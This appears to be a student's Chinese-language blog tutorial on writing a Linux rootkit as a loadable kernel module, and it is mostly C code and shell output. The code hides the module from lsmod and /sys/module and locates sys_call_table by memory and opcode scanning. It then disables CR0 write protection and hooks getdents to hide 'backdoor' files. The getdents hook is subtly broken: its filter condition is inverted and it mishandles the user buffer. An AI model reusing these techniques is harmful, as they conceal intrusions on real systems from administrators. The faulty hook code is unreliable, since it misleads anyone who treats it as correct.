

# Linux Rootkit学习

> 本来早就打算做一个这个系列的记录，但是一直都给弃坑了，趁今天老师讲完，自己私下离研究一下，争取弄懂这个知识点。
>
> 实验环境: kali Linux 2019.1
>
> 内核版本: 4.19.0-kali3-amd64

## 1 LKM内容

### 1.1 LKM加载

```c
/**
 * 一个最简单的系统模块
 * rooty.c
 */

#include <linux/module.h>	//模块头文件
#include <linux/init.h>		//使用的宏文件
#include <linux/kernel.h>	//KERN_INFO在这里

// LICENSE
MODULE_LICENSE("GPL");

// 作者
MODULE_AUTHOR("chanshaw");

//描述
MODULE_DESCRIPTION("It's a rootkit lkm");

//版本
MODULE_VERSION("0.1");


static int rooty_init(void) {
    printk("rooty: module loaded\n");
    return 0;
}

static void rooty_exit(void) {
    printk("rooty: module removed\n");
}

module_init(rooty_init);
module_exit(rooty_exit);
```

这个模块在初始化的时候，将`rooty:module loaded`打印到内核缓冲区，并在模块删除的时候，打印`rooty: module removed`，所以不难理解这个程序主要有两部分代码组成，一部分为`module_init(rooty_init)`，这个有点想我们面对对象编程的时候写的构造函数，，同样与之对应的是`module_exit(rooty_exit)`,这个就是于我们的析构函数对应的。

```makefile
obj-m = rooty.o
all:
    make -C /lib/modules/$(shell uname -r)/build/ M=$(PWD) modules
clean:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
# make命令前是tab，不是空格
```

`obj-m`表示我们正在从对象创建模块，现在可以使用make来编译或者清理用来伤处编译过程中生成的文件。

**编译`rooty.c`：**

```bash
root@kali:~/Documents/rootkit# make
make -C /lib/modules/4.19.0-kali3-amd64/build/ M=/root/Documents/rootkit modules
make[1]: 进入目录“/usr/src/linux-headers-4.19.0-kali3-amd64”
  CC [M]  /root/Documents/rootkit/rooty.o
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /root/Documents/rootkit/rooty.mod.o
  LD [M]  /root/Documents/rootkit/rooty.ko
make[1]: 离开目录“/usr/src/linux-headers-4.19.0-kali3-amd64”
```

**查看模块信息：**

```bash
root@kali:~/Documents/rootkit# modinfo rooty.ko
filename:       /root/Documents/rootkit/rooty.ko
version:        0.1
description:    It's a rootkit lkm
author:         chanshaw
license:        GPL
srcversion:     6084592AB4626A083A7446F
depends:        
retpoline:      Y
name:           rooty
vermagic:       4.19.0-kali3-amd64 SMP mod_unload modversions 
```

**模块操作：**

- 加载内核：

  ```shell
  root@kali:~/Documents/rootkit# insmod rooty.ko
  ```

- 查看系统日志，在这里，我们查看最后10条信息

  ```shell
  root@kali:~/Documents/rootkit# dmesg | tail -n 10
  [56753.551611] IPv6: ADDRCONF(NETDEV_CHANGE): eth0: link becomes ready
  [56753.560390] usb 2-2.1: New USB device found, idVendor=0e0f, idProduct=0008, bcdDevice= 1.00
  [56753.560393] usb 2-2.1: New USB device strings: Mfr=1, Product=2, SerialNumber=3
  [56753.560396] usb 2-2.1: Product: Virtual Bluetooth Adapter
  [56753.560398] usb 2-2.1: Manufacturer: VMware
  [56753.560400] usb 2-2.1: SerialNumber: 000650268328
  [57731.899954] usb 2-2.1: reset full-speed USB device number 7 using uhci_hcd
  [60903.403630] usb 2-2.1: reset full-speed USB device number 7 using uhci_hcd
  [63702.217634] rooty: loading out-of-tree module taints kernel.
  [63702.233369] rooty: module loaded
  ```

- 查找我们的模块

  ```shell
  root@kali:~/Documents/rootkit# lsmod |grep rooty
  rooty                  16384  0
  ```

  前者是模块大小，后者是模块使用次数，可以看到，我们的模块大小是16384，一次都未使用

- 卸载模块，再查看系统日志

  ```shell
  root@kali:~/Documents/rootkit# rmmod rooty.ko
  root@kali:~/Documents/rootkit# dmesg | tail -n 10
  [56753.560390] usb 2-2.1: New USB device found, idVendor=0e0f, idProduct=0008, bcdDevice= 1.00
  [56753.560393] usb 2-2.1: New USB device strings: Mfr=1, Product=2, SerialNumber=3
  [56753.560396] usb 2-2.1: Product: Virtual Bluetooth Adapter
  [56753.560398] usb 2-2.1: Manufacturer: VMware
  [56753.560400] usb 2-2.1: SerialNumber: 000650268328
  [57731.899954] usb 2-2.1: reset full-speed USB device number 7 using uhci_hcd
  [60903.403630] usb 2-2.1: reset full-speed USB device number 7 using uhci_hcd
  [63702.217634] rooty: loading out-of-tree module taints kernel.
  [63702.233369] rooty: module loaded
  [63792.257348] rooty: module removed
  ```

到此，我们已经了解了有关系统模块的基本操作。

### 1.2 隐藏系统模块

​	现在我们要做的是，虽然这个模块是正常工作的，但是我们要使得它不被别人察觉到，也就是，不管我们是在使用`dmesg`命令还是`lsmod`命令，都不会察觉到它。

- 对于`dmesg`命令，只需要简单的不适用`printk()`函数就好。
- 对于`lsmod`命令，我们在接下的部分进行讨论。

首先明确的是，我们需要处理的一共有两个位置，第一个是`/proc/modules`第二个是`sys/module/`。

### 1.2.1 `/proc/modules`隐藏

​	`lsmod`命令通过`/proc/modules`中的当前系统模块信息是内核在利用`struct modules`结构体的表头遍历整个内核模块链表、从所有的模块的`struct module`结构体总获取模块的相关位置信息得到的.

​	首先，为了使得在使用`lsmod`的时候无法找到我们的模块，我们需要知道如下信息：

`lsmod`命令通过查看`/proc/mpdules`文件来工作，为此，我们需要在`＆__ this_module.list`上调用`list_del_init`方法。这个函数调用`__list_del_entry`并且是基于`__list_del`，有关这三个函数的源码都在`include/linux/list.h`中。源码如下:

```c
/**
 * list_del_init - deletes entry from list and reinitialize it.
 * @entry: the element to delete from the list.
 */
static inline void list_del_init(struct list_head *entry)
{
	__list_del_entry(entry);
	INIT_LIST_HEAD(entry);
}

/**
 * list_del - deletes entry from list.
 * @entry: the element to delete from the list.
 * Note: list_empty() on entry does not return true after this, the entry is
 * in an undefined state.
 */
static inline void __list_del_entry(struct list_head *entry)
{
	if (!__list_del_entry_valid(entry))
		return;

	__list_del(entry->prev, entry->next);
}

static inline void list_del(struct list_head *entry)
{
	__list_del_entry(entry);
	entry->next = LIST_POISON1;
	entry->prev = LIST_POISON2;
}
```

在模块删除之后，我们还需要重新初始化这个列表，使用的党法是`INIT_LIST_HEAD(entry)`,源码很好理解；

```c
static inline void INIT_LIST_HEAD(struct list_head *list)
{
	WRITE_ONCE(list->next, list); //list-> next = list;
	list->prev = list;
}
```

`WRITE_ONCE`函数在`include/linux/compiler.h`中，源码如下:

```c
/*
 * Prevent the compiler from merging or refetching reads or writes. The
 * compiler is also forbidden from reordering successive instances of
 * READ_ONCE and WRITE_ONCE, but only when the compiler is aware of some
 * particular ordering. One way to make the compiler aware of ordering is to
 * put the two invocations of READ_ONCE or WRITE_ONCE in different C
 * statements.
 *
 * These two macros will also work on aggregate data types like structs or
 * unions. If the size of the accessed data type exceeds the word size of
 * the machine (e.g., 32 bits or 64 bits) READ_ONCE() and WRITE_ONCE() will
 * fall back to memcpy(). There's at least two memcpy()s: one for the
 * __builtin_memcpy() and then one for the macro doing the copy of variable
 * - '__u' allocated on the stack.
 *
 * Their two major use cases are: (1) Mediating communication between
 * process-level code and irq/NMI handlers, all running on the same CPU,
 * and (2) Ensuring that the compiler does not fold, spindle, or otherwise
 * mutilate accesses that either do not require ordering or that interact
 * with an explicit memory barrier or atomic instruction that provides the
 * required ordering.
 */
#define WRITE_ONCE(x, val) \
({							\
	union { typeof(x) __val; char __c[1]; } __u =	\
		{ .__val = (__force typeof(x)) (val) }; \
	__write_once_size(&(x), __u.__c, sizeof(x));	\
	__u.__val;					\
})
```

根据源码注释，可知，之所以这么写的原因是为了防止编译器合并或重新读取读取或写入。确保编译器不折叠，主轴或以其他方式破坏不需要排序或与显式内存屏障或提供所需排序的原子指令交互的访问。具体解释在[这里](https://stackoverflow.com/questions/34988277/write-once-in-linux-kernel-lists)。在这里我们只需要简单的知道这部分是双向链表的删除操作就可以。

​	现在我们将`list_del_init(&__this_module.list)；`加入到我们的初始化函数中，保存，编译，装载模块，再输入`lsmod`就会发现找不到我们的模块了。

```c
static int __init rooty_init(void) {
    list_del_init(&__this_module.list);
    //printk("rooty: module loaded\n");
    return 0;
}
```

效果:

```shell
root@kali:~/Documents/rootkit# insmod rooty.ko
root@kali:~/Documents/rootkit# lsmod |grep rooty
root@kali:~/Documents/rootkit# modinfo rooty
modinfo: ERROR: Module rooty not found.
root@kali:~/Documents/rootkit# ls /sys/module/ |grep rooty
rooty
```

### 1.2.2 `sys/module`隐藏

​	`sys/module`总有加载内核对象的一般信息（比如参数）。所以通过查看`sysfs`也就是`sys/module`目录来发现现有模块是可行的。

​	`sysfs`是一个基于`ram`的文件系统，这个文件系统不仅可以把设备（devices）和驱动程序（drivers）的信息从内核输出到用户空间，也可以用来对设备和驱动程序做设置。通常，`sysfs`是挂在在/sys目录下的:

```shell
mount -t sysfs sysfs /sys
```

而`/sys/module`是一个`sysfs`的一个目录层次, 包含当前加载模块的信息.。`sysfs`与`kobject`层次紧密相连，它将`kobject`层次关系表现出来，使得用户空间可以看见这些层次关系。其中`kobj`是一个`struct kobject`结构体，而`kobject`是组成设备模型的基本结构。

​	所以原理大概是同上，我们通过`kobject_del()`函数删除我们当前模块的`kobject`就可以起到在`/sys/module`中隐藏`lkm`的作用。这里使用的函数是`kobject_del`我们在`&THIS_MODULE`上使用它，并将其指向`obj`，这个函数只使用`sysfs_remove_dir（obj)`从VFS中删除相关目录。代码:`kobject_del(&THIS_MODULE->mkobj.kobj);`

`&THIS_MODULE`的定义在`include/llinux/export.h`中，源码如下：

```c
extern struct module __this_module;
#define THIS_MODULE (&__this_module)
#else
#define THIS_MODULE ((struct module *)0)
```

可以看出THIS_MODULE的作用是指向当前模块。`&THIS_MODULE->mkobj.kobj`则代表的是struct module结构体的成员`struct module_kobject`的一部分，结构体的定义如下：

```c
struct module_kobject {
	struct kobject kobj;
	struct module *mod;
	struct kobject *drivers_dir;
	struct module_param_attrs *mp;
	struct completion *kobj_completion;
} __randomize_layout;
```

代码如下：

```c
static int __init rooty_init(void) {
    list_del_init(&__this_module.list);
    kobject_del(&THIS_MODULE->mkobj.kobj);
    //printk("rooty: module loaded\n");
    return 0;
}
```

结果:

```shell
root@kali:~/Documents/rootkit# insmod rooty.ko
root@kali:~/Documents/rootkit# lsmod |grep rooty.ko
root@kali:~/Documents/rootkit# modinfo rooty
modinfo: ERROR: Module rooty not found.
root@kali:~/Documents/rootkit# ls /sys/module|grep rooty
root@kali:~/Documents/rootkit# modprobe -c |grep rooty
root@kali:~/Documents/rootkit# grep rooty /proc/kallsyms 
```

我们无法找到有关模块`rooty.ko`的任何信息，需要注意的是，我们也无法像正常模块一样使用`rmmod`命令移除它。

### 1.3 小结

​	这部分中，我们知道了：

- 如何写一个内核模块
- 如何加载内核模块
- 如何查看内核信息
- 如何释放我们加载的内核模块
- 如何隐藏我们的内核模块

## 2 初探rootkit

以上的过程，我们实现了一个简单的`lkm`并将它隐藏的起来，现在么们将会使用这个这个隐藏的`lkm`实现一些功能。比如隐藏文件，进程等等，并且实现一系列的`rootkit`工具。接下来要做的事情是劫持系统调用，并实现文件隐藏。

### 2.1 系统调用

​	了解了系统调用之后，我们才知道操作系统实际的运行方式以及`rootkit`工作的基本要求，在这里不会赘述如何实现它，只会j简单的概述一下它们是什么。系统调用是程序和内核服务交互的方式。它们涵盖了进程管理，文件管理，设备管理，信息管理，通信（内核调度）的所有操作。在保护模式下，内核决定了一组系统调用以及其相关实现。所以系统调用号是不可逆的，而有关系统调用的定义存储在` /usr/include/x86_64-linux-gnu/asm/unistd_64.h `中，这里截取前面几个简单的看一下:

```c
#ifndef _ASM_X86_UNISTD_64_H
#define _ASM_X86_UNISTD_64_H 1

#define __NR_read 0
#define __NR_write 1
#define __NR_open 2
#define __NR_close 3
#define __NR_stat 4
#define __NR_fstat 5
#define __NR_lstat 6
#define __NR_poll 7
#define __NR_lseek 8
#define __NR_mmap 9
#define __NR_mprotect 10
#define __NR_munmap 11
```

这里有有关系统调用的资料，可以看一下：

- <https://zh.wikipedia.org/wiki/系统调用>
- <https://developer.ibm.com/tutorials/l-system-calls/>

下面一张图展示了如何用户如何获得pid



- 用户调用`getpid(void)`库，C标准库在一个段寄存器中存储`getpid`的系统调用号，并启动`0x80`中断，执行`system_call`函数。这个函数处理的是由`eax`内容标识的所有系统调用，然后经过一些步骤之后，它调用真正的系统调用`sysytem_call_table`和`exa`中存放的中断索引。从系统调用返回之后，`sysytemcall_exit`退出系统调用，并从内核态返回用户态，将结果返回给用户。
- 所以我们能够知道的是，在`system_call_table`中存放的是所有系统调用位置的指针，如果我们能够找到它，就可以修改它里面某个系统调用的指针，使得它指向的经过我们修改之后的函数。

现在有有个问题是，自从2.6.x内核开始，我们无法直接导出`system_call_talbe`的地址了。所以需要查找它的地址。

### 2.2 查找`sys_call_table`地址

#### 2.2.1 从`/boot/System.map`中读取

​	`system.map`是系统的映射。具体是内核符号和其所在内存地址两者的用设，通过地址我们可以找到符号，也就是变量和函数，通过符号，我们也能知道它所在的地址，在这里，我们一直的符号是`sys_call_table`系统调用表，从`system.map`中我们就可以找到系统调用表所在的内存地址。

```shell
root@kali:/boot# cat System.map-4.19.0-kali1-amd64 | head -20
0000000000000000 D __per_cpu_start
0000000000000000 D irq_stack_union
00000000000001e0 A kexec_control_code_size
0000000000004000 D cpu_debug_store
0000000000005000 D cpu_tss_rw
0000000000008000 D gdt_page
0000000000009000 d exception_stacks
000000000000e000 d entry_stack_storage
000000000000f000 D espfix_waddr
000000000000f008 D espfix_stack
000000000000f010 D cpu_llc_id
000000000000f020 D cpu_llc_shared_map
000000000000f060 D cpu_core_map
000000000000f0a0 D cpu_sibling_map
000000000000f0e0 D cpu_info
000000000000f1d0 D cpu_number
000000000000f1d8 D this_cpu_off
000000000000f1e0 D x86_cpu_to_acpiid
000000000000f1e4 D x86_cpu_to_apicid
000000000000f1e6 D x86_bios_cpu_apicid

```

同样，我们可以直接查一下，系统调用表内存地址是多少。

```shell
root@kali:/boot# cat System.map-4.19.0-kali1-amd64 | grep "sys_call_table"
ffffffff81c001e0 R sys_call_table
ffffffff81c015c0 R ia32_sys_call_table
```

到这里我们先停下，目前我们做到的是，得到了`sys_call_table`地址。

#### 2.2.2 确定大概范围然后将其与我们导出的符号进行比较

`#define __NR_close (__NR_SYSCALL_BASE+ 6) `，在这里我们导出的符号是`close`，当我们的指针+偏移量与`sys_close`值匹配的时候，我们就成功的在内存中找到了`sys_call_table`了。如过没有的话，我们修改一下指针大小遍历即可。

代码如下:

```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/syscalls.h>

#define START_CHECK 0xffffffff81000000
#define END_CHECK 0xffffffffa2000000

unsigned long *sys_call_table;

void *get_sys_call_table(void)
{

    unsigned long **entry;
    unsigned long i = START_CHECK;
    while(i < END_CHECK){
        entry = (unsigned long **)i;
        if(entry[__NR_close] == (unsigned long *)sys_close){
            return &entry[0];
        }
        i += sizeof(void *);
    }
    return NULL;
}


static int rooty_init(void)
{
    sys_call_table = get_sys_call_table();
    if (!sys_call_table)
    {
        printk("get_act_addr(): NULL...\n");
        return 0;
    }
    else{
        printk("sct: 0x%p\n", (unsigned long)sys_call_table);
        return 0;
    }   
}

static void rooty_exit(void)
{
    printk(KERN_INFO "printsct3: module removed\n");
}


MODULE_LICENSE("GPL");
module_init(rooty_init);
module_exit(rooty_exit);

```

#### 2.2.3 通过IDT中断向量表来获取系统调用

##### 2.2.3.1 32位

从2.1的图中我们能够看到中断向量表的工作过程。

> - 用户进程在执行系统调用前，先将系统调用号，输入的参数等放在寄存器中。
> - 发出0x80中断，也就是128号中断
> - 系统暂停用户进程，根据128号中断在终端向量表中找到中断服务程序system_call
> - 128号中断的中断服务程序system_call紧接着执行。在进行必要的处理后，**统一调用 call `sys_call_table(%eax,4)`来调用sys_call_table表中的系统调用服务**，`eax`存放的即时系统调用号；执行完毕后它又会把输出结果放到寄存器中。
> - 系统恢复用户进程，进程从寄存器中取到自己想要的东西，然后继续执行。

根据过程，我们有利一下获取`sys_call_table`的思路：

> - 利用`sidt`指令，得到IDT
> - 在IDT中，找到0x80号向量中断服务程序地址`system_call`
> - 从0x80号中断服务程序的地址开始硬编码搜索` \xff\x14\x85`(x86)，` \xff\x14\xc5`(x64)也就是`call`指令二进制格式，而中断调用语句是:`sys_call_table(%eax,4)`

代码如下:

```c
struct 
{
	unsigned short size;
	unsigned int addr;
}__attribute__((packed)) idtr;

struct
{
	unsigned short offset_1;  /*offset bits 0..15*/ 
	unsigned short selector;  /*a code segment selector in GDT or LDT*/
	unsigned char zero;       /*unused, set to 0*/
	unsigned char type_attr;  /*type and attributes*/
	unsigned short offset_2;  /*offset bits 16..31*/
}__attribute__((packed)) idt;
```

这两个结构体代表的是IDTR和IDT表项，IDTR是用来定位IDT位置的，因为IDT表可以驻留在线性地址空间的任何地方，所以处理器专门有寄存器来储存IDT的位置，也就是IDTR寄存器。我们通过`sidt`指令加载IDTR寄存器的内容，然后储存到我们自己的这个结构体中，然后通过其找到IDT的位置所在，将IDT存到我们所设的结构体中，便于操作。

```c
unsigned long  *find_sys_call_table(void)
{
	unsigned int sys_call_off;
	char *p;
	int i;
	unsigned int ret;
    
    //调用idtr指令，然后将加载出来的中断描述符表寄存器中的内容存入我们之前准备好的的idtr结构体
	asm("sidt %0":"=m"(idtr));
    //获取0×80中断所对应的IDT中的表项。中断描述符表共256项，每项8字节，每项代表一种中断类型。所以我们要从IDR起始地址后的8*0×80位置拷贝一个IDT表项大小的数据，也就是0×80中断所对应的IDT中的表项
	memcpy(&idt, idtr.addr+8*0x80, sizeof(idt));
    //这条语句获取的是128号中断的中断服务程序system_call的地址
	sys_call_off = ((idt.offset_2<<16) | idt.offset_1);
	p = sys_call_off;
    //搜索\xff\x14\x85，得到sys_call_table地址。
	for(i=0; i<100; i++)
	{
		if(p[i]=='\xff' && p[i+1]=='\x14' && p[i+2]=='\x85')
			ret = *(unsigned int *)(p+i+3);
	}
	printk("Arciryas:sys_call_table-0x%x\n", ret);
	return (unsigned long**)ret;
}
```

由于没有32位机器，不测试

##### 2.2.3.2 64位

在64位系统中，IDT的编排头不用经过计算，直接可以从寄存器中取出来。

其他的和32位类似

代码如下：

```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <asm/unistd.h>
#include <linux/types.h>
#include <linux/sched.h>
#include <linux/dirent.h>
#include <linux/string.h>
#include <linux/file.h>
#include <linux/fs.h>
#include <linux/list.h>
#include <asm/uaccess.h>
#include <linux/unistd.h>


void** sys_call_table;

void *
get_lstar_sct_addr(void)
{
    u64 lstar;
    u64 index;
    
    rdmsrl(MSR_LSTAR, lstar);
    for (index = 0; index <= PAGE_SIZE; index += 1) {
        u8 *arr = (u8 *)lstar + index;

        if (arr[0] == 0xff && arr[1] == 0x14 && arr[2] == 0xc5) {
            return arr + 3;
        }
    }

    return NULL;
}

//
unsigned long **
get_lstar_sct(void)
{
    unsigned long *lstar_sct_addr = get_lstar_sct_addr();
    if (lstar_sct_addr != NULL) {
        u64 base = 0xffffffff00000000;
        u32 code = *(u32 *)lstar_sct_addr;
        return (void *)(base | code);
    } else {
        return NULL;
    }                                         
}


static int filter_init(void)
{	
    int i = 0;
    sys_call_table = get_lstar_sct();
    if (!sys_call_table)
    {
        printk("get_act_addr(): NULL...\n");
        return 0;
    }
    else{
        printk("sct: 0x%p\n", (unsigned long)sys_call_table);
	    return 0;
	}	
}


static void filter_exit(void)
{
    printk(KERN_INFO "hideps: module removed\n");
}


MODULE_LICENSE("GPL");
module_init(filter_init);
module_exit(filter_exit);

```


### 2.3 rootkit实现hook示例

我们已经获得了系统调用，接下来要考虑的就是如何篡改系统调用了，基本思路是将SCT中指向正常系统调用的指针改成我们自己的函数地址。由于SCT原来是有写保护的，所以我们首先要取消写保护，写完之后恢复写保护，代码：

```c
void disable_write_protection(void)
{
        unsigned long cr0 = read_cr0();
        clear_bit(16, &cr0);
        write_cr0(cr0);
}

void enable_write_protection(void)
{
        unsigned long cr0 = read_cr0();
        set_bit(16, &cr0);
        write_cr0(cr0);
}
```

接下来实现我们自己的系统调用，一般而言就是对系统原有的结果进行过滤，这里直接拿来老师的代码：

```c
asmlinkage long my_getdents(unsigned int fd, struct linux_dirent __user *dirp,
                unsigned int count){
    struct linux_dirent *kdirp,*kdirp2;

    long value,tlen;
    long len = 0;
    value = (*old_getdents) (fd, dirp, count);
    tlen = value;

    kdirp = (struct linux_dirent *) kmalloc(tlen, GFP_KERNEL);
    kdirp2 = kdirp;
    copy_from_user(kdirp, dirp, tlen);

    while(tlen > 0)
    {
        len = dirp->d_reclen;
        tlen = tlen - len;
        printk("%s\n",dirp->d_name);
        
        if(strstr(dirp->d_name,"backdoor") == NULL)
        {
            printk("find file\n");
            memmove(dirp, (char *) dirp + dirp->d_reclen, tlen);
            value = value - len;
            printk(KERN_INFO "hide successful.\n");
        }
        if(tlen)
            dirp = (struct linux_dirent *) ((char *)dirp + dirp->d_reclen);
    }
    printk(KERN_INFO "finished hacked_getdents.\n");
    return value;
}
```

## 参考文献

[1] [编写第一个LInux内核模块](<http://blog.topspeedsnail.com/archives/10053>)

[2] [Linux rootkit系列](<https://www.freebuf.com/articles/system/54263.html>)（一共三篇，两个作者，对于我理解相关内容有很打帮助)

[3] [Linux Rootkits](<https://turbochaos.blogspot.com/2013/09/linux-rootkits-101-1-of-3.html?view=sidebar>)（一样有三篇)

